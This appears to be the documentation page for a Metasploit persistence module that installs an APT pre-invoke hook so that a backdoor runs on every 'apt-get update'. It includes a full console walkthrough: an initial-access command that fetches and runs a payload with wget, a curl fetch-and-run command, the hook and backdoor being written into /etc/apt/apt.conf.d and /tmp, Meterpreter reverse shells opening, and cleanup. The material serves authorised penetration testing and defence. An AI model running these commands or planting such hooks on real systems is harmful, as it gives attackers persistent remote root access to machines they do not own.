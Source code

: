 ## Description

This module will run a payload when the apt package manager is used.
This module creates a pre-invoke hook for APT in `apt.conf.d`.
The hook name syntax is numeric followed by text.

Verified on Ubuntu 22.04

## Verification Steps

1. Exploit a box that uses APT
2. Obtain root persmissions, or enough permissions to edit the `apt.conf.d` folder
3. `use exploit/linux/persistence/apt_package_manager`
4. `set SESSION <id>`
5. `set PAYLOAD cmd/unix/reverse_python` configure the payload as needed
6. `exploit`

When the system runs `apt-get update` the payload will launch.

## Options

**BACKDOOR_NAME**

Name of backdoor executable. Defaults to a random name

**HOOKNAME**

Name of pre-invoke hook to be installed in `/etc/apt/apt.conf.d/`. Pre-invoke hook name syntax is numeric followed by text.

**WritableDir**

Writable directory for backdoor. Default is (`/tmp/`)

## Scenarios

### Tested on Ubuntu 22.04

Initial access vector via web delivery

```
$ ./msfconsole -q
[*] Processing /root/.msf4/msfconsole.rc for ERB directives.
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set srvport 8181
srvport => 8181
resource (/root/.msf4/msfconsole.rc)> set target 7
target => 7
resource (/root/.msf4/msfconsole.rc)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4545
lport => 4545
resource (/root/.msf4/msfconsole.rc)> set URIPATH l
URIPATH => l
resource (/root/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Starting persistent handler(s)...
[*] Started reverse TCP handler on 111.111.1.111:4545 
[*] Using URL: http://111.111.1.111:8181/l
[*] Server started.
[*] Run the following command on the target machine:
wget -qO Z73D1DUW --no-check-certificate http://111.111.1.111:8181/l; chmod +x Z73D1DUW; ./Z73D1DUW& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > 
[*] 222.222.2.22     web_delivery - Delivering Payload (250 bytes)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.22
[*] Meterpreter session 1 opened (111.111.1.111:4545 -> 222.222.2.22:51076) at 2025-02-04 17:40:52 -0500
sessions -l

Active sessions
===============

  Id  Name  Type                   Information          Connection
  --  ----  ----                   -----------          ----------
  1         meterpreter x64/linux  root @ 222.222.2.22  111.111.1.111:4545 -> 222.222.2.22:51076 (222.222.2.22)
```

Persistence

```
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/linux/persistence/apt_package_manager 
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
[msf](Jobs:1 Agents:1) exploit(linux/persistence/apt_package_manager) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(linux/persistence/apt_package_manager) > check
[*] The target appears to be vulnerable. /etc/apt/apt.conf.d/ and /tmp/ are writable, also found apt-get.
[msf](Jobs:1 Agents:1) exploit(linux/persistence/apt_package_manager) > exploit
[*] Command to run on remote host: curl -so ./xTOLdQoOTv http://111.111.1.111:8080/Hg3DGEu9GqlWD06kh4AzFg;chmod +x ./xTOLdQoOTv;./xTOLdQoOTv&
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/persistence/apt_package_manager) > 
[*] Fetch handler listening on 111.111.1.111:8080
[*] HTTP server started
[*] Adding resource /Hg3DGEu9GqlWD06kh4AzFg
[*] Started reverse TCP handler on 111.111.1.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. /etc/apt/apt.conf.d/ and /tmp/ are writable, also found apt-get.
[*] Attempting to write hook:
[*] Wrote /etc/apt/apt.conf.d/76skoGqswo
[*] Backdoor uploaded /tmp/erNOJV96u
[+] Backdoor will run on next APT update
[*] Meterpreter-compatible Cleaup RC file: /root/.msf4/logs/persistence/222.222.2.22_20250204.4245/222.222.2.22_20250204.4245.rc

[msf](Jobs:2 Agents:1) exploit(linux/persistence/apt_package_manager) > jobs

Jobs
====

  Id  Name                                            Payload                                     Payload opts
  --  ----                                            -------                                     ------------
  0   Exploit: multi/script/web_delivery              linux/x64/meterpreter/reverse_tcp           tcp://111.111.1.111:4545
  1   Exploit: linux/persistence/apt_package_manager  cmd/linux/http/x64/meterpreter/reverse_tcp  tcp://111.111.1.111:4444

[msf](Jobs:2 Agents:1) exploit(linux/persistence/apt_package_manager) > 
```

Run `sudo apt-get update` on the target.

```
[*] Client 222.222.2.22 requested /Hg3DGEu9GqlWD06kh4AzFg
[*] Sending payload to 222.222.2.22 (curl/7.81.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.22
[*] Meterpreter session 2 opened (111.111.1.111:4444 -> 222.222.2.22:49804) at 2025-02-04 17:43:06 -0500

[msf](Jobs:2 Agents:2) exploit(linux/persistence/apt_package_manager) > sessions -i 2
[*] Starting interaction with 2...

(Meterpreter 2)(/tmp) > sysinfo
Computer     : 222.222.2.22
OS           : Ubuntu 22.04 (Linux 5.15.0-48-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 2)(/tmp) > 
```

#### Cleanup

```
(Meterpreter 2)(/tmp) > resource /root/.msf4/logs/persistence/222.222.2.22_20250204.4245/222.222.2.22_20250204.4245.rc
[*] Processing /root/.msf4/logs/persistence/222.222.2.22_20250204.4245/222.222.2.22_20250204.4245.rc for ERB directives.
resource (/root/.msf4/logs/persistence/222.222.2.22_20250204.4245/222.222.2.22_20250204.4245.rc)> rm /etc/apt/apt.conf.d/76skoGqswo
resource (/root/.msf4/logs/persistence/222.222.2.22_20250204.4245/222.222.2.22_20250204.4245.rc)> rm /tmp/erNOJV96u
```
